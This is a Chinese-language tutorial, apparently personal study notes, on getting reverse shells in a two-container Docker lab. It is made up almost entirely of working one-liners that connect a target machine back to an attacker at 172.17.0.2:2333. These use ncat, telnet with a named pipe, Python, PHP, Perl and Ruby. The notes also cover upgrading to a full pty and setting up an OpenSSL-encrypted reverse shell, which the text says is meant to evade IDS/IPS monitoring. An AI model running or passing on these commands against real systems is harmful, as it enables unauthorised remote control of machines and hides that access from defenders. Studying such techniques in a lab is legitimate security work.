



## 反弹shell

### 1. 利用netcat反弹shell

需要两台linux，这里用docker起了两个ubuntu。netcat在一般的linux发行版都有，不过在ubuntu上需要使用npm构建的ncat。

```shell
apt install ncat
```

起的两个ubuntu上，一个作为攻击机，一个作为目标机。
其中在攻击机上输入：
```shell
ncat -lvvp 2333
```
开启本地监听

在victim上：
```shell
ncat 172.17.0.2 2333 -e /bin/bash
```
没有bash用sh，ncat后跟的是攻击机的ip和监听的端口

随后在攻击机上即可反弹shell，效果如下


可以看到，在目标机上执行了ncat操作，反弹shell到攻击机，其中
```shell
ls
```
是我在攻击机上弹shell成功后输入的命令。

### 2. 利用telnet弹shell

与ncat上类似，在攻击机上开启端口监听：
```shell
ncat -lvvp 2333
```

然后目标机主动连接攻击机：
```shell
mknod a p; telnet 172.17.0.2 2333 0<a | /bin/bash 1>a
```


其中，
```shell
whoami
ls
```
是弹shell后输入的命令

### 3. python反弹shell

提示没python先安装python
```shell
apt install python3
```

攻击机上开启端口监听

```shell
ncat -lvvp 2333
```

目标机主动连接攻击机

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.2",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

会直接出现sh提示符，如图：


其中

```shell
ls
whoami
ifconfig
```
为反弹shell后输入的命令，可以看到ip显示的是目标机的172.17.0.3。

#### 同理，php/perl/ruby 等脚本都可以反弹shell
#### 命令分别为：
```shell
php -r '$sock=fsockopen("172.17.0.2",2333);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```shell
perl -e 'use Socket;$i="172.17.0.2";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```shell
ruby -rsocket -e 'c=TCPSocket.new("172.17.0.2","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
或
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.17.0.2","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### 4. 获取完整终端

之前几个demo演示中，反弹得到的bash或者sh都是不完整的终端，即使获取了控制权限，但是由于显示不完整，不能通过passwd修改密码等。
所以可以通过python的pty标准库来获取一个完整的虚拟终端。

```shell
python3 -c "import pty;pty.spawn('/bin/bash')"
```
通过该命令即可模拟一个终端设备。

可以看到，终端id和目标机的也一样，ip等其他的也一样。

### 5. 通过OpenSSL反弹加密shell

在上文我们总结了很多反弹shell得方法，但是这些reverse-shell的方式都有一个缺点，那就是所有的流量都是明文传输的。
这些通过shell通过传输的流量都可以被管理员直接抓取并理解，当目标主机网络环境存在网络防御检测系统时(IDS、IPS等)，网络防御检测系统会获取到我们的通信内容并进行告警和阻止。
因此，我们需要对通信的内容进行混淆或加密，这时可以选择使用 OpenSSL 反弹一个加密的 shell。

首先，在攻击机和目标机上都去生成一个自签名证书
```shell
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

一路回车即可

然后在攻击机上开启端口监听(这里不再使用ncat)
```shell
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333
```
此时OpenSSL就在攻击机上开启了一个SSL/TLS的2333端口的server

之后，在目标机上进行reverse_shell：
```shell
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 172.17.0.2:2333 > /tmp/s; rm /tmp/s
```

这样便在攻击机上通过OpenSSL反弹了了一个目标机的一个加密shell。


#### 参考资料
https://drun1baby.github.io/2022/07/20/%E5%8F%8D%E5%BC%B9shell%E5%AD%A6%E4%B9%A0/


